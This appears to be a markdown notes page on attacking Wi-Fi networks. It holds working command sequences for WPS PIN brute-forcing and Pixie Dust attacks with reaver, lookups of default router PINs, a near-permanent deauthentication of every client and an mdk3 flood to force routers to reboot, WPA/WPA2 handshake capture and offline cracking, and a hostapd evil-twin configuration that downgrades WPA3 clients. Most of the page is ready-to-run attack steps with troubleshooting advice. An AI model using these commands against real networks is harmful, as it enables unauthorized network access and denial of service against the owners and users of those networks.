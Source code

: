 ## WPA/WPA2
https://www.youtube.com/watch?v=Ra0dGPYScLQ


Before trying to crack WPA find out if WPS is enabled, which is easier to crack

### WPS
Method to authenticate to WPA without the passphrase, only with a 8 character ping. It can be cracked faster because of its length, and once obtained, the WPA/WPA2 passphrase can be automatically recovered.

Requirements (hard to find nowadays)
- WPS must be enabled
- WPS must be using ``pin authentication`` and not PBC (Push Button Configuration). With option, a physical button in the router must be pushed to activate the use of WPS for some time interval. PBC usually is active by default in modern routers, or WPS is directly disabled by default.

```bash
# Find APs with WPS activated (exit with ctrl-C)
wash --interface wlan0mon  
wash -i wlan0mon  
# scan 5GHz band
wash -i wlan0mon -5
# The Lck column says if WPS is locked (sometimes WPS gets locked after some failed attempts). WPS version 2 includes mitigations against brute force, but depending on the implementation it may only slow it down.

# The next command brute forces WPS pins, online cracking similar to hydra (-vvv for verbose, --no-associate if we have previously associated with aireplay-ng --fakeauth)
reaver -b <AP bssid> -i wlan0mon -v
reaver --bssid <AP bssid> --channel <AP channel> --interface wlan0mon -vvv --no-associate

# Pixie attack (-K), faster than the regular brute force, but doesn't always work, depends on the AP PRGA 
reaver -b <AP BSSID> -i wlan0mon -v -K

# When the previous command is sent it stays waiting if we are not associated with the AP. We can do it with aireplay, so that the AP doesn't ignore the future packets that we will send (instead of 0 we can use a certain number of seconds to be associated)
sudo aireplay-ng --fakeauth 30 -a <AP bssid> -h <our own MAC> wlan0mon
```
Reaver outputs the WPS pin if it can find it, and thanks to it it also retrieves the passphrase (WPA-PSK), which we can use to connect to the network. Even if it finds it, it's an slow attack, it can take a few hours to complete, depending on the router AP configuration and the value of the pin (if it's one of the last ones reaver tries)

These attacks usually fail, there are several possible sources of problems. Reaver can say that the AP is deauthenticating us, among other error messages. If WPS cracking doesn't work right away it probably won't work at all. Even if an AP's WPS is not locked the attacks can fail for other reasons. For example, some routers timeout WPS after a short time since it was activated.

There are APs that don't use a pin. With bully and reaver we can use the ``-p ''`` option to check if the pin is empty

Some APs use a pin that is linked to the first three bytes of the BSSID. Airgeddon contains them in known_pins.db

To check if a certain BSSID has known default pins, use the first three bytes of the AP (without the colon symbols, in this case XXYYZ for a BSSID= XX:YY:ZZ:AA:BB:CC)

```
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["XXYYZZ"]}
14755989 48703970 06017637
```

Try manually the pins returned, if any

troubleshooting the reaver:
1- If it says it cannot associate with the AP -> we need to associate manually with aireplay-ng --fakeauth in another terminal, and keep the fake auth running while we try the reaver attack (which we must run with the -A option, so that it doesn't try to associate itself to the AP, since we already are associated via aireplay-ng)

2- Reaver says WPS transaction failed, re-trying last ping (we can see this with -vvv for debugging output). Then it retries the same pin all the time. Sometimes (we can see in the output) this is due to the use of NACK packets. We can try with the option -N (or --no-nacks) to not send them.

3- If reaver says "Waiting for beacon from XX:XX:XX:XX:XX:XX" we need to specify the channel manually (-c parameter) 

4- The AP can have rate limiting enabled, and change state to locked (Lck) after some failed attempts. If we suspect the AP locked WPS, run ``wash`` again to check if it's in the Lck state. We can deauthenticate permanently all clients connected, so that someone complains or restarts the AP, so that we can continue bruteforcing pins. This is very clumsy and noisy, and if the rate limiting occurs fast it's probably going to be useless, as we will quickly lock WPS again.
We can run this "permanent" deauth with
``sudo aireplay-ng --deauth 1000000000000 -a <AP bssid> wlan0mon``

We can also try the ``mdk3`` tool, which can cause DoS to some routers and perhaps force them to restart. Some routers unlock WPS when they restart

```bash
# DoS to an AP, with different MACs, as if it were a DDoS. Some routers reboot when too many different MACs try to connect to them because they cannot handle so many connections

# Help of the "a" option of mdk3 (used for DoS) withs
mdk3 --help a 

# DoS (-m for using real looking MACs, not arbitrary ones like 00:00:00:00:00:00)
mdk3 wlan0mon a -a <AP BSSID> -m
```
Clients connect in amounts of 500 and it may say that it is vulnerable, or it may not say it. When we reach about 10000 stop ``mdk3`` and use ``wash`` to check if WPS got unlocked (if the AP rebooted it will take a while before we can get useful output from ``wash``)


- karma attack: the fake AP listens to probes sent by clients when they search for known APs and responds, telling them that he is the AP they are looking for


### WPA/WPA2 cracking
WPA-> TKIP (based on WEP). WPA only required firmware update, for that reason it was accepted quickly
WPA2 -> CCMP (based on AES). WPA2 needs new hardware to compute AES faster

```bash
# Run the following and wait for a handshake by a new client connecting to the network
sudo airodump-ng --bssid <AP bssid> --channel <channel> --write <cap file> wlan0mon

# We can also deauthenticate a client to force him to reconnect (we should see in the top right corner of the airodump-ng output tha ta handshake has been captured. I have problems with this in a VM, but not on a baremetal linux)
sudo aireplay-ng --deauth 4 -a <AP bssid> -c <client MAC> wlan0mon

# Crack the capture file
aircrack-ng <file.cap> -w <wordlist.txt>
```

Cracking is time consuming because of the computation of the PBKDF2 function (4096 iterations for AES). A rainbow table can be precomputed:

``genpmk -f <wordlist> -d precomputed-common -s home``
And we can crack with a rainbow table attack:
``cowpatty -d <precomputed wordlist> -s <ESSID> -r <capture file.cap>``


```bash
# Create the <output db> database 
airolib-ng <output db> --import passwd <wordlist>

# save to a file the ESSID that we want to crack
echo "<essid>" > <essid file>

# Import the ESSID in the DB
airolib-ng <output db> --import essid <essid file>

# Create a PMK for every password in the list
airolib-ng <output db> --batch

# Crack
aircrack-ng -r <output db> <file.cap>
```

### AP-less networks
If we see a client probing for a network but the network is not there, probably it's using WPA/WPA2, we can create a honeypot with that network name and capture traffic with airodump, so that when he tries to connect to us we capture a handshake that we can try to crack


### WPA3
It is not possible to crack WPA3. But we can try downgrade clients to WPA2 to capture a crackable handshake. This can be done with an evil twin with only WPA2 and 802.11w set to "optional".

If 802.11w is disabled, a client may never try to connect, but WPA2 clients rarely use it (and sometimes don't handle it well). The combination of only using WPA2 and 802.11w set to "optional" will gives us the highest chance that a client will be willing to downgrade.

To achieve this in the hostapd configuration:
- _wpa_ value should be set to "2"
- there shouldn't be a _wpa_pairwise_ parameter
- rsn_pairwise should be set to "CCMP" only
- To enable 802.11w, we would set _ieee80211w_ as a new parameter with the value of "1" (indicating it is optional). 
- The latter also requires that we add "WPA-PSK-SHA256" to _wpa_key_mgmt_.